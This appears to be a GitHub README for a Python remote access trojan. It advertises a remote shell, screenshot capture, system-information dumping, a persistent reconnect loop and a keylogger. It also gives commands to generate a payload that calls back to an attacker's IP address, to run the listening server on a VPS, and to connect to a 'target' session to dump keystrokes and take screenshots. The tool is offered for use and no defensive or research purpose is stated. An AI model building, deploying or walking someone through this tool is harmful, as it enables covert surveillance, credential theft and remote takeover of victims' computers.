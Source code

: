 
### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/starcheek/rat.git
$ cd rat/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

